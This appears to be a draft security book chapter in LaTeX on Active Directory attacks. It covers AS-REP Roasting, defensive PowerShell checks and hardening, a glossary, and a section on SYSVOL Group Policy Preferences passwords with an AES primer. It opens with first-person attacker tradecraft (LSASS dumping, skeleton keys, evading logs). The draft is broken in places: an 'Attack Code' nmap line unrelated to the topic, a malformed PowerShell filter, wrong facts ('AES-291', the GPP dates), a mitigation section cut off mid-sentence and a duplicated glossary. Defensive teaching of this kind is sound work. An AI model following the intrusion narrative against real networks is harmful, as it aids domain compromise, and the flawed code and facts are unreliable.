This proves the credentials are valid and usable across protocols. From here, I map where this account can reach. Is it tied to file shares? Does it run a scheduled task? Is it embedded in a  config file or used by an app pool on a web server? I don’t just want access - I want persistence. I want something automated that will keep working for me long after I leave.

My next step is moving laterally. If I can use the account to access other machines - especially ones where users are actively logging in - I dump LSASS. You know the playbook: one cracked password leads to a box, which gives me a cached hash, which, in turn, gets me to another box, and so on. Every time a higher-privileged token shows up, I get one step closer to domain control.

And I’m monitoring and watching logs, too - not because I care, but because I assume you’re not. Most organizations don’t log successful logins in detail. They watch for failed attempts and brute-force patterns, not clean Kerberos auths from known accounts. So if I blend in well enough - log in like a script would, at the same time of day, on the same machine - I essentially become invisible.

If I’m feeling bold enough, I’ll backdoor the account. Change the description field to embed commands. Modify an unused attribute with an encoded payload. Or just drop a skeleton key on a secondary domain controller using the cracked credentials. All of this happens under the radar. Because in your SIEM, it just looks like a user doing what they’re allowed to do. And unless you’re correlating behavior by endpoint, time, and volume, you won’t see it.

That’s the beauty of AS-REP Roasting. It gives me the keys \textbf{before} I even touch a system. I walk in authenticated. I don’t need to leverage any pre-existing exploits to make this happen. I don’t need malware. I’m not elevating (yet) - I’m just \textbf{using what you left exposed}, by design. And once I’m in, I take my sweet time. Because with a valid user account, I’m not an intruder. I’m just another part of the network.

Moving forward, you’ve seen how attackers can weaponize cracked access - but the real question is, \textbf{why does AS-REP Roasting keep working? }Why does this ancient misconfiguration still exist and show up in today’s modern networks that claim to be secure? This section is about the blind spots, the habits witnessed, and the false sense of security that keep defenders one step behind.

\textbf{Why AS-REP Roasting Continues to Be Successful}

Allow me to be blunt for a moment: AS-REP Roasting isn’t some unknown tactic buried in red team lore. It’s been around for years. It’s public knowledge. Documented. Built into every major offensive toolkit. So why does it continue to persist as a threat? Because it lives in the gray space - between bad configuration, inherited risk, and the assumptions defenders make about what’s “safe enough.”

Most Active Directory environments are bloated. They carry years of technical debt - old accounts, legacy policies, misconfigured users left untouched because nobody knows what they break. And somewhere in between that mess, one or two accounts have `DONT\_REQ\_PREAUTH` set. Maybe they were created for testing purposes. Maybe for legacy apps. Maybe someone disabled preauth to troubleshoot an issue and forgot to reverse it. Whatever the case may be, the end result is always the same: the door is left open.

The problem for defenders is visibility. Most administrators don’t have alerts for accounts with preauth disabled. It’s not a setting that shows up in standard AD reports, Active Directory Users and Computers (ADUC) snap-in, or Group Policy audits. There’s no “risky account” warning baked into Active Directory. Unless you’re explicitly querying that flag - or running an AD hardening script - \textbf{you don’t even know what’s truly exposed.}

And when defenders do become aware of AS-REP Roasting, they usually assume it’s only a threat \textbf{after compromise. }They think you need a foothold to first exploit it. Not true. You don’t. If the domain controller is reachable from outside the networ boundary or perimeter - through a misconfigured VPN, a split-tunnel endpoint, or a legacy web app using LDAP - you can roast from the internet. Zero access needed. Just usernames and a request packet.

The other failure? \textbf{Assuming strong passwords make roasting safe. }They don’t. AS-REP Roasting doesn’t break Kerberos. It doesn’t exploit a weakness in the crypto chain. It targets human behavior: repeated use of the same password across platforms, predictable patterns, reused phrases. And the cracking rigs attackers use don’t care about policies - they chew through billions of guesses a second. So if even one account is using `CorpName2023!`, again, it’s game over.

Detection is basically nonexistent. There’s no log for “user X had an AS-REP requested” unless you’re actively auditing Kerberos events - and even then, it’s not that specific. No lockouts, no failed logins. Just a KDC responding to a request. Unless you’ve got deep packet inspection or custom KDC telemetry, you won’t even know it happened. And if you think your EDR is catching it? It isn’t. Because AS-REP Roasting doesn't touch endpoints. It hits the controller and walks away.

What makes this even more dangerous is how little risk it appears to present - \textbf{until it doesn’t}. One user account doesn’t seem like much. But one service account can have domain rights. One cracked password can get you into an internal VPN. One misstep can lead to ticket forging, lateral movement, or even complete domain dominance.

Attackers love AS-REP Roasting because it sits there quietly until someone curious enough asks the right question. And 90\% of environments never bother to ask.
\subsubsection{\textbf{Tools}}

\begin{itemize}
    \item Shodan

    \item Nmap scripts

    \item Medusa

\end{itemize}

\subsubsection{\textbf{Attack Code}}

nmap -sV --script=http-default-accounts 192.168.1.1

\subsubsection{\textbf{Defense}}

Now that you’ve seen how the AS-REP Roasting attack works, let’s flip the lens. We’re still deep in the trenches - but now you’re \textbf{defending} the domain, trying to stop this exact scenario from unfolding. This isn’t about theory. It’s about closing holes and plugging gaps, understanding your blind spots, and killing AS-REP Roasting \textbf{before} someone turns it into real access.

\textbf{How to Defend Against AS-REP Roasting}

If you are defending a Windows domain and you’re not actively looking for AS-REP Roasting exposure, you are gambling, plain and simple. This attack does not require malware. It does not need an exploit. It does not require the attacker to be authenticated. It takes one misconfigured user, one missed setting, and the attacker walks away with an offline crackable hash. That’s all it takes to lose control of your network.

Your first job is \textbf{visibility. }You can’t protect what you can’t see. AS-REP Roasting only works against accounts that have pre-authentication disabled, specifically, when the \texttt{DONT\_REQ\_PREAUTH} flag is set in the user’s properties. Your job is to \textbf{find those accounts immediately}. No waiting. No guesswork.

If you’re using PowerShell, here’s how to list roastable users:

\begin{verbatim}

Get-ADUser -Filter \{DoesNotRequirePreAuth -eq \$True\} -Properties DoesNotRequirePreAuth | Select-Object Name,SamAccountName

\end{verbatim}

This command shows you every account where preauth is disabled. If you see more than zero results, you have a problem. And no, 'just one' is not safe. All an attacker needs is one valid username, one exposed AS-REP blob, and enough GPU time to crack it offline. Then they’re in - and you won’t know until it’s too late.

Some defenders assume service accounts are exempt. That’s a mistake. Service accounts should be \textbf{hardened}, not exempted. They should have long, random passwords stored in a password vault - not human-picked phrases. If you must disable preauth (rare), you need to \textbf{document it}, monitor it, and make sure that account has minimal privileges (least privilege principles applied). The moment that account has domain rights and a crackable password, you’ve handled the keys to the castle over without even knowing it.

Detection isn’t impossible, however, but it does require work. You won’t see AS-REP Roasting unless you \textbf{log Kerberos events at the domain controller level. }Specifically, enable \textbf{Advanced Audit Policy} for:


\begin{itemize}
    \item \textbf{\textbf{Audit Kerberos Authentication Service}}
    \item \textbf{\textbf{Audit Kerberos Service Ticket Operations}}
\end{itemize}
Once logging is active, \textbf{Event ID 4768} shows you authenticaiton ticket requests. What you’re looking for are requests \textbf{without preauth data}. That’s a red flag. If you start seeing unauthenticated AS-REP requests for accounts with `DoesNotRequirePreAuth = True`, that’s likely a roasting attempt. Flag it. Alert on it. Investigate immediately.

You also want to monitor public-facing services. If your DC is exposed through a VPN, misconfigured LDAP gateway, or hybrid cloud mismanagement, attackers can still roast from the outside. They don’t need to be inside the actual network for this to be possible. They just need line of sight to the controller. Segment your domain controllers. Shield them from unauthorized subnets. If they don’t need to talk to the internet, they shouldn’t be.

Finally, \textbf{rotate passwords} on any accounts you identify as roastable. Immediately. Don’t just fix the flag - \textbf{change the password, too}, because you don’t know how long that hash has been exposed. And while you’re at it, review all of your account policies. Kill any legacy automation that requires `DONT\_REQ\_PREAUTH`. Update your provisioning process. Make sure no new accounts are created with that setting.

This isn’t just patching a hole. It’s rebuilding trust in your authentication flow. Because when attackers can get password-equivalent hashes without logging in, you’ve lost before the breach even starts.

Now, we move from \textbf{detection and response} into \textbf{proactive hardening} - what real-world defenders need to do to make AS-REP Roasting dead on arrival. This isn’t about theory as previously stated - it’s about specific, tactical changes to how you manage accounts, enforce policies, and monitor your entire environment.

\textbf{Real-World Hardening: Kill the Roast Before It Starts}

If you want to stop AS-REP Roasting from ever becoming an issue in your environment, you don’t wait for alerts - you change the operating environment so the attack doesn’t work. That means hunting down and fixing the misconfigurations that make it possible in the first place. And it starts with the \textit{Group Policy Object (GPO) }level.

There’s no checkbox in Group Policy that says “Disable AS-REP Roasting,” but what you \textit{can} control is how accounts are created and what flags are applied by default. You want to make sure that any provisioning scripts, automation, or manual user creation processes \textbf{do not assign the `DONT\_REQ\_PREAUTH` flag}. That means auditing user creation routines and making sure your directory management tools enforce preauthentication \textbf{as a default.}

For existing users, you need a continuous audit. You don’t want this to be a once-a-year compliance checkbox. You want a weekly report that lists any accounts where preauth has been disabled. You can automate that easily with PowerShell and Task Scheduler, or even better - pipe it into your SIEM and aler in near-real-time:

```

Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object \_DoesNotRequirePreAuth -eq \$true\}

```

If that list ever changes, \textbf{you investigate immediately.}

For \textbf{service accounts}, you need to be more aggressive. These are often the most vulnerable because they run silently in the background, are rarely changed, and frequently have elevated privileges applied. If you must have a service account without preauth (a terrible idea, but reality is messy), then the password needs to be at least 25+ characters, randomized, and rotated regularly through a vault like \textbf{CyberArk, Thycotic, }or \textbf{HashiCorp Vault}. And even then - you monitor it like a privileged admin.

You will also need a baseline. Use your SIEM or log aggregation tool to build a \textbf{normal activity profile} for your domain controllers and the ingress/egress that pass through them. This includes:

\begin{itemize}
    \item Expected AS-REP traffic volume
    \item Who requests Kerberos tickets
    \item Frequency of authentication failures
    \item AS-REP requests without preauth data
\end{itemize}
Once you know what “normal” looks like, spotting “weird” becomes easier. That ‘weird’ could be an internal red team - or it could be an external attacker hitting you through a neglected VPN box from five years ago.

A huge part of prevention is also \textbf{account lifecycle discipline. }Old users? Disable and delete. Unused accounts? Deprovision them. Orphaned service accounts? Rotate, restrict, or remove. The longer an account sits unmonitored, the higher the risk it gets roasted.

Want to take it a step further? Create a fake user account with preauth disabled on purpose. Make sure it’s honeytokened. Monitor every attempt to hit it. If anyone requests that user’s AS-REP, you’ve got an IOC (Indicator of Compromise) to act on immediately. It’s bait - and the moment it gets touched, you know someone is up to something.

This is how you win as a defender: not by hoping it won’t happen, but by structuring your environment so that \textbf{if it ever does}, you know fast and can cut it off right then and there.

\textit{As defenders, we want to always finish strong. Now that we have shut down AS-REP Roasting directly, it’s time to go a bit further - }\textit{\textbf{building a network that’s hardened across the board}}\textit{, not just against one technique. Because if an attacker cracks one credential, you need to make sure that access alone doesn’t turn into }\textit{\textbf{lateral movement, persistence}}\textit{, or }\textit{\textbf{domain control.}}

\textbf{Beyond AS-REP: Building a Roasting-Resistant Network}

AS-REP Roasting is just one technique in a long chain of abuses that rely on weak passwords, poor hygiene, and trust models that haven’t evolved. So your goal isn’t just to block roasting attempts - it’s to build a network that is resilient to those attempts so that even if an attacker cracks a credential, they hit a wall. Wall after wall after wall. That starts with \textbf{Kerberos hygiene}.

First, tighten your \textbf{password policies}. Not just for end-users, but especially for service accounts and privileged users. Don’t rely on complexity alone. Complexity doesn’t stop roasting; length does. Use long, random passphrases that are impossible to guess and hard to crack - even offline. You want passwords that \textbf{never show up in any cracking dictionary, }even by accident. If it’s human-readable, it’s breakable.

Next, fix your \textbf{account scoping}. Not every service account needs domain-wide access to function properly. Not every script needs to run as SYSTEM. Audit who has admin rights where and to what. Remove local administrator permissions from domain users. Limit which systems privileged accounts can log into using \textbf{login restrictions }in AD. You want to prevent a cracked account from being the key to 50 other machines.

Then harden authentication protocols. Disable \textbf{NTLM} wherever possible. Enforce \textbf{Kerberos-only} authentication using Group Policy. NTLM is a goldmine for attackers because it’s replayable and hash-based. Kerberos, while not perfect, forces ticketing flows that are much easier to audit, log, and control. Every environment still running NTLM is vulnerable to more than just roasting - it’s open to relay attacks, Pass-the-Hash (PtH) attacks, and token abuse, plus more.

Let’s talk \textbf{credential storage} for a minute. You can’t afford to have hashes sitting in memory. Enforce \textbf{Credential Guard }on Windows 10+ systems to protect LSASS. Block \textbf{unconstrained delegation} - this setting dumps users’ TGTs into memory where they can be stolen by anyone with admin access to the box. Move toward \textbf{Protected Users} groups for your high-valued targets. That blocks things like NTLM fallback, delegation abuse, and weak crypto use.

Visibility matters too. Set up \textbf{SIEM correlation rules }that don’t just alert on anomalous logins, but track \textbf{authentication trends} across users. Are you seeing a user suddenly request Kerberos tickets from 15 different machines in an hour? That’s weird. Did a service account just log in interactively? Also weird. These are signs something got cracked - and the attacker’s now testing and probing for access entry points

Most of all, assume you’ve already lost one credential. That’s not defeatist - that’s \textbf{realistic}. Every account should be treated like it might get compromised. So you isolate roles. You enforce segmentation. You deploy host-based firewalls. You log \textbf{everything} if it comes down to that. And then you \textit{actually read the logs.}

\textit{Future-proofing} means \textbf{baking security into the infrastructure}, not duct-taping it on afterward. You need a \textit{CI/CD pipeline} that checks service account hygiene. You need password vault integration that prevents human-generated credentials. You need alerting that knows the difference between normal AS-REQ activities and someone probing the KDC with roasting tools.

Because when AS-REP Roasting fails, the attacker pivots. To Kerberoasting. To token theft. To LLMNR poisoning. You’re not defending against techniques - you’re defending against people. The more obstacles you put between a cracked hash and domain-wide access, the more likely they’ll move on to an easier target.

\textit{Let’s bring it home.}

\textit{This final section isn’t about tools or protocols. It’s about the }\textit{\textbf{people}}\textit{ behind the keyboard—your team, your users, your admins—and how you build a }\textit{\textbf{security culture}}\textit{ that doesn’t just react to threats like AS-REP Roasting, but anticipates them, hardens against them, and keeps raising the bar.}

\subsection{From Reactive to Proactive: Security Teams That Don’t Get Roasted}

You can deploy every tool in the playbook—SIEM, EDR, MFA, vaulting, GPO lockdowns—but if your team is reactive, you’re still behind. Because attackers don’t wait. They don’t follow change control. They find gaps, they take shortcuts, and they move faster than most internal processes ever will. Your defense has to be \textbf{proactive}. That means building a team that thinks like attackers, not bureaucrats.

It starts with \textbf{ownership}. Someone on your team needs to be accountable for Active Directory hygiene. Not “the security team” in general—\textbf{a name, a role, a person}. Someone who knows how to run Get-ADUser, who checks pre-auth flags regularly, who audits service accounts, and who understands why “Password1!” on an unused account isn’t just a misstep—it’s a foothold.

Next, get serious about \textbf{internal red teaming}. If you haven’t tested your environment for AS-REP Roasting yourself, someone else will. Build a repeatable test. Use the Impacket toolkit. Use Rubeus. Try to request AS-REPs. Try to crack them. Try to access machines with cracked creds. If you can do it in under an hour, so can an attacker. And once you’ve got the results, use them to drive real change.

That change isn’t just technical—it’s \textbf{cultural}. You need to educate your IT admins, helpdesk staff, and even app developers about what “roastable” accounts are and why they matter. Most pre-auth-disabled users weren’t created maliciously. They were created by someone in a rush. Someone troubleshooting. Someone who didn’t realize what that checkbox meant. Fix that. Embed security into the provisioning conversation. Bake it into all onboarding processes and procedures.

You also need \textbf{policy enforcement with teeth}. It’s not enough to say, \textit{“Service accounts must have long passwords.”} You need automation that checks for it. Vaulting that enforces rotation. Scripts that shut down non-compliant accounts. Security isn’t about asking nicely. It’s about \textbf{removing the option to be insecure}.

Visibility is your final weapon. You can’t block everything. But you can \textbf{see} what’s happening and respond fast. Make sure your logs are complete. Make sure you’re getting telemetry from your DCs, your vaults, your ticketing system. Build dashboards that show when weird authentication patterns show up. Correlate user behavior. Flag anomalies. Don’t wait for the attack to finish before you notice something’s wrong.

And above all, understand this: security is about friction. The right kind, in the right places. You don’t want a network that’s perfectly smooth—because that’s a network where attackers move freely. You want a network that’s hardened, segmented, and annoyingly hard to navigate without tripping over controls. That’s how you make even a cracked password worthless.

If you do this right, AS-REP Roasting becomes just another dead tool in the attacker’s kit. They’ll try it. They’ll get nothing. And they’ll move on—to someone else.

Not you.

\subsection{\textbf{Glossary}}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{A} \\
\hline

\end{tabular}

\end{table}

\textbf{Assume Breach}

"Assume breach" is a security principle and a mindset that dictates that a security system should be designed and operated under the assumption that a breach has already occurred or will inevitably occur. It emphasizes proactive measures to detect, respond to, and mitigate the impact of breaches rather than solely focusing on preventing them. This approach is a core component of Zero Trust Architecture, which aims to minimize the impact of potential breaches by limiting access and trust within the network.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{B} \\
\hline

\end{tabular}

\end{table}

\textbf{Backdoor}

A backdoor is a secret method of bypassing normal authentication or security measures to gain access to a computer system, network, or application. It's like a hidden entrance that allows attackers to bypass security controls and maintain persistent access.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{C} \\
\hline

\end{tabular}

\end{table}

\textbf{Canary Tokens}

Canary tokens are digital tripwires used in cybersecurity to detect unauthorized access to sensitive data or systems. They are essentially decoy files, URLs, or API keys strategically placed within a network or application, designed to trigger an alert when accessed by an attacker or malicious actor. This early warning system helps defenders identify potential breaches and respond quickly.

\textbf{Credential Hygiene}

Credential hygiene refers to the practices and processes involved in managing and protecting authentication credentials like passwords, tokens, and keys. It's crucial for maintaining security across various systems and applications, particularly in CI/CD pipelines and SaaS environments. Effective credential hygiene minimizes the risk of unauthorized access, data breaches, and other security incidents.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{D} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{E} \\
\hline

\end{tabular}

\end{table}

\textbf{External Trust}

An external trust in Active Directory is a trust relationship established between two domains in different forests. It allows users in one domain to access resources in the other domain, even though the domains are not part of the same forest. This type of trust is often used when there is a need for resource sharing between organizations with separate Active Directory environments.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{F} \\
\hline

\end{tabular}

\end{table}

\textbf{Forest Trust}

Forest trusts in Active Directory are a type of trust relationship established between the root domains of two separate Active Directory forests. They allow users and resources in one forest to be accessed by users in the other forest, effectively creating a bridge between the two separate domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{G} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{H} \\
\hline

\end{tabular}

\end{table}

\textbf{HONEYTOKENS}

Honeytokens are decoy elements, like fake data or credentials, strategically placed within a system to detect unauthorized access and malicious activity. They act as tripwires, triggering alerts when accessed by attackers, thus revealing their presence and methods. Unlike honeypots, which are entire systems, honeytokens are small, discrete components designed to be part of real systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{I} \\
\hline

\end{tabular}

\end{table}

\textbf{Interdomain}

Interdomain refers to something existing or occurring between two or more domains. In networking, it specifically relates to routing traffic between different autonomous systems (AS). It can also refer to courses that integrate knowledge from two different domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{J} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{K} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{L} \\
\hline

\end{tabular}

\end{table}

\textbf{Local Security Authority (LSA)}

The Local Security Authority (LSA) is a security subsystem within the Windows operating system that manages and enforces local security policies. It's responsible for crucial tasks like authenticating users during sign-in, verifying passwords, and handling access tokens. Essentially, the LSA acts as a gatekeeper, controlling access to resources and ensuring only authorized users and processes can interact with the system. 

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{M} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{N} \\
\hline

\end{tabular}

\end{table}

\textbf{NTDS.dit File}

NTDS.dit, short for New Technology Directory Services Directory Information Tree, is the central database for Microsoft Active Directory Domain Services (AD DS). It's a critical component that stores all the information about objects within an Active Directory domain, including users, groups, computers, and their associated attributes, including password hashes. This file essentially powers authentication and authorization across an organization's network, processing requests, storing password information securely, and managing group policy settings.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{O} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{P} \\
\hline

\end{tabular}

\end{table}

\textbf{Protocol Stack}

A protocol stack, also known as a network stack, is a hierarchical set of communication protocols organized into layers. Each layer performs a specific function and relies on the services of the layer below it, while providing services to the layer above. This layered approach simplifies the design, implementation, and troubleshooting of complex network communication systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Q} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{R} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{S} \\
\hline

\end{tabular}

\end{table}

\textbf{Service Principal Name (SPN)}

A Service Principal Name (SPN) is a unique identifier for a service instance, used in Active Directory for Kerberos authentication. It links a service to a specific service account, enabling clients to locate and authenticate the service. SPNs are crucial for services like SQL Server, IIS, and others that use Kerberos for secure communication.

\textbf{Signature Validation}

Kerberos signature validation is a crucial security mechanism within the Kerberos authentication protocol, ensuring the integrity and authenticity of messages and tickets exchanged during authentication and authorization processes. It involves verifying digital signatures on various Kerberos components, primarily the Privileged Attribute Certificate (PAC), to prevent malicious tampering and unauthorized privilege escalation.

\textbf{Shadow Domain Admin}

A shadow domain admin refers to a user account that possesses administrator-level privileges within a domain, but is not officially part of the designated domain administrator group. These accounts often go unnoticed by security teams because they don't appear in standard administrative listings, making them a potential security risk.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{T} \\
\hline

\end{tabular}

\end{table}

\textbf{Total Domain Persistence}

Total domain persistence refers to an attacker's ability to maintain long-term, uninterrupted control over a compromised network or domain, even in the face of detection and attempts to remove them.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{U} \\
\hline

\end{tabular}

\end{table}

\textbf{User and Entity Behavior Analytics (UEBA)}

User and Entity Behavior Analytics (UEBA) is a cybersecurity solution that uses machine learning and data analytics to detect suspicious activities by analyzing the behavior of users and other entities within an organization's network. By establishing baseline behaviors, UEBA identifies anomalies that may indicate security threats, such as insider threats or compromised accounts.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{V} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{W} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{X} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Y} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Z} \\
\hline

\end{tabular}

\end{table}

 
%
\textbf{Legal and Ethical Considerations of AD Hacking and Defense}

\textit{The Hacker’s Ethical Compass in a Risky Landscape: A Framework for Ethical Engagement in Active Directory Environments}

Section 1: Prevalence of Active Directory Installations Worldwide

\textbf{Active Directory (AD) is a dominant force in corporate network access management and identity services globally.}

\textbf{Statistical Breakdown}

\begin{itemize}
    \item Approximately 80\% of organizations worldwide use Active Directory as their directory service, according to IS Decisions.
    \item Approximately 90\% of Fortune 1000 companies depend on Active Directory to manage their endpoints and assets.
    \item More than 95\% of large companies worldwide use Active Directory, according to Gartner.
    \item Microsoft Active Directory commands over 98\% of the market share in on-premises directory services.
    \item 
Today for many enterprise security postures is the often-expedited timeline from initial domain user compromise to full Domain Administrator control. This rapid escalation frequently prompts the critical defensive inquiry: \textit{ 'How does this occur?'}
\end{itemize}
The typical attack lifecycle often starts with targeted reconnaissance, such as targeted spearphishing campaigns or exploitation of vulnerabilities in public-facing web applications, enabling initial arbitrary code executions within the targeted network perimeter. Upon establishing this initial presence, the immediate subsequent phase involves extensive passive or active internal reconnaissance. This recon aims to identify critical assets, discover vulnerabilities and weak entry points into the core network, and map or map the network topology to facilitate the attacker's efforts to achieve privilege escalation, establish long-term persistence, and ultimately enable data exfiltration, often targeting the most sensitive information assets, or \textit{“crown jewels.”}

Although the granular execution details may vary, the overarching progression of such an attack adheres to a consistent thematic flow.

\textbf{1. Initial access (malware injection): } This often involves attack vectors such as spearphishing, impersonation, web exploits, or supply chain compromise.

\subsubsection{2. Internal Reconnaissance}
Post-compromise, the next step of an attacker after recon is to enumerate network resources, user accounts, group memberships, and potential misconfigurations.

\subsubsection{3. Credential Theft}
Harvesting credentials through various cracking techniques, including memory scraping, hash dumping, or keylogging.

\subsubsection{4. Exploitation & Privilege Escalation}
Leveraging identified vulnerabilities or misconfigurations to increase access rights, culminating in domain administrator account breach and compromise.

\subsubsection{5. Data Access & Exfiltration}
Accessing and extracting targeted sensitive information.

\subsubsection{6. Persistence}
Establishing mechanisms to maintain long-term access to the compromised environment, even after system reboots, system reimages, or credential changes.

Group Policy Preferences (GPPs) stored in the \texttt{SYSVOL} share./

\subsection{Passwords in SYSVOL \& Group Policy Preferences (GPPs)}

This attack vector represents one of the most straightforward methods for an attacker to escalate their privileges within an Active Directory (AD) environment, and often one that requires minimal specialized tooling to accomplish. This attack capitalizes on a historical vulnerability and common misconfiguration within ADs \textit{Group Policy Objects (GPOs).}

\subsubsection{Understanding the Vulnerability}

The `SYSVOL` share is a domain-wide \textit{ distributed file system (DFS) } share within Active Directory, critical for domain operations. It hosts essential data such as logon scripts, Group Policy data, and other domain-wide information that requires replication across all Domain Controllers (DCs). Crucially, all authenticated users within the domain have \textbf{ read access} to the `SYSVOL` share, located at `<DOMAIN>\textbackslash{}SYSVOL\textbackslash{}<DOMAIN>\textbackslash{}Policies\textbackslash{}.

Prior to 2012, when Group Policy Preferences (GPPs) were introduced, Microsoft implemented a feature allowing administrators to embed credentials (e.g., for creating local users, scheduling tasks, or configuring services) directly within GPP XML files. These passwords were encrypted using \textbf{AES-256}; however, a severe oversight occurred: Microsoft publicly released the \textbf{AES encryption key (shared secret)} on MSDN.

Consequently, any authenticated domain user can enumerate the `SYSVOL` share, specifically searching for XML files associated with GPPs. The most commonly targeted files include:

\begin{itemize}
    \item groups.xml (for Local Users and Groups GPPs)
    \item scheduledtasks.xml (for Scheduled Tasks GPPs)
    \item services.xml (for Services GPPs)
\end{itemize}

These XML files often contain a field named \textbf{“cpassword,”} which holds the AES-256 encrypted password.

\textbf{Note:}

\textbf{AES-256} refers to the \textit{\textbf{Advanced Encryption Standard (AES)}} algorithm using a \textbf{256-bit key length. }It is a highly secure and widely adopted \textit{\textbf{symmetric block cipher}} used globally, including the United States Federal Government, for protecting sensitive digital data at rest or in transit.

\subsection{\textbf{What Is AES?}}

AES is a \textit{symmetric block cipher}, meaning it uses the \textit{same secret key} for both encrypting plaintext (human-readable data) into ciphertext (encrypted, machine-readable data, binary, 1s and 0s), and decrypting ciphertext back into plaintext. It operates on fixed-size blocks of data, specifically \textbf{128-bit blocks} (16 bytes), regardless of the key size.

The algorithm was established by the U.S. National Institute of Standards and Technology (NIST) in 2001, replacing the older \textit{Data Encryption Standard (DES)} due to DESs shorter key length and susceptibility to brute-force attacks.

\subsubsection{\textbf{Why 256?}}

The “256” in AES-256 indicates the \textbf{length of the cryptographic key} used in the encryption and decryption process. AES supports three primary key lengths: 128-bit, 192-bit, and 256-bit. A longer key length directly translates to a significantly higher number of possible keys, making brute-force attacks (trying to guess and use every possible key until the correct one is found) exponentially more difficult.

For AES-256, there are 2\textsuperscript{256} possible combinations for the key. To put this into perspective, cracking AES-256 through brute-force with current computing technology is considered computationally infeasible, even for the most powerful supercomputers, taking billions of years, literally. It’s often referred to as “military-grade” encryption because it is approved by the U.S. government for securing classified information, including data up to the :TOP SECRET” level.

\subsection{\textbf{How AES-256 Works}}

The AES algorithm operates through a series of complex mathematical transformations performed over multiple \textbf{rounds. }The number of rounds depends on the key length:

\begin{itemize}
    \item \textbf{\textbf{AES-128: }10 rounds}
    \item \textbf{\textbf{AES-291: }12 rounds}
    \item \textbf{\textbf{AES-256: 14 rounds}}
\end{itemize}

Each round consists of a sequence of four fundamental operations applied to the 128-bit data block, represented as a 4 x 4 matrix of bytes:

\textbf{1. \texttt{SubBytes} (Byte Substitution): }Each byte in the data block is replaced with another byte using a predefined substitution box (S-box). This introduces \textbf{ non-linearity, } a crucial property for cryptographic strength.

\textbf{2. \texttt{ShiftRows} (Row Shifting): }The rows of the data matrix are cyclically shifted to the left by different offsets. This step provides \textbf{diffusion} by spreading the byte values throughout the block.

\textbf{3. \texttt{MixColumns} (Column Mixing): }A mathematical operation (matrix multiplication) is performed on each column of the data matrix, further scrambling the data and improving diffusion. This step is skipped in the final round.

\textbf{4. \texttt{AddRoundKey} (Key Mixing): }A \textbf{round key}, derived from the original 256-bit secret key through a process called \textit{\textbf{key expansion}}, is combined with the current data block using a \textit{bitwise XOR} operation. This step directly integrates the secret key material into the encryption process.

These operations are performed repeatedly for the specified number of rounds. The final round omits the \texttt{MixColumns} step and concludes with an \texttt{AddRoundKey} operation, producing the final ciphertext.

\subsubsection{\textbf{Key Features \& Applications}}

\begin{itemize}
    \item \textbf{\textbf{Symmetric Key Algorithm: }Uses the same key for encryption and decryption (goes both ways). This makes it efficient for encrypting large volumes of data.}
    \item \textbf{\textbf{Block Cipher: }Processes data in fixed-sized blocks of 128-bits.}
    \item \textbf{\textbf{High Security: }Considered virtually unbreakable by brute-force attacks with current technology, offering durable protection against unauthorized access.}
    \item \textbf{\textbf{Substitution-Permutation Network (SPN): }The underlying structure of the algorithm, involving alternating layers of substitutions and permutations to create strong cryptographic mixing.}
    \item \textbf{\textbf{Widely Adopted: }AES-256 is the standard for securing data in various applications, including:}
\end{itemize}
\begin{itemize}
    \item\begin{itemize}
        \item \textbf{\textbf{Data at Rest (DAR): }Full Disk Encryption (FDE) (e.g., BitLocker, FileVault) and database encryption.}
    \end{itemize}
    \begin{itemize}
        \item \textbf{\textbf{Data in Transit (DIT): }Secure communication protocols like TLS/SSL (HTTPS), VPNs, and wireless security (WPA2/3).}
    \end{itemize}
    \begin{itemize}
        \item \textbf{\textbf{File Encryption: }For sensitive documents and archives.}
    \end{itemize}
\end{itemize}

Although AES-256 is highly secure, its effectiveness ultimately depends on proper implementation and \textbf{ secrecy of the key. }A strong algorithm cannot compensate for weak key management practices.

\textbf{Mitigation}

Mitigating the risk of attackers leveraging exposed credentials within SYSVOL and Group Policy Preferences (GPPs) is crucial for preventing

\textbf{Assume Breach}

"Assume breach" is a security principle and a mindset that dictates that a security system should be designed and operated under the assumption that a breach has already occurred or will inevitably occur. It emphasizes proactive measures to detect, respond to, and mitigate the impact of breaches rather than solely focusing on preventing them. This approach is a core component of the Zero-Trust Architecture, which aims to minimize the impact of potential breaches by limiting access and trust within the network.

\textbf{Backdoor}

A backdoor is a secret method of bypassing normal authentication or security measures to gain access to a computer system, network, or application. It is like a hidden entrance that allows attackers to bypass security controls and maintain persistent access.

\textbf{Canary Tokens}

Canary tokens are digital tripwires used in cybersecurity to detect unauthorized access to sensitive data or systems. They are essentially decoy files, URLs, or API keys strategically placed within a network or application, designed to trigger an alert when accessed by an attacker or malicious actor. This early warning system helps defenders identify potential breaches and respond quickly.
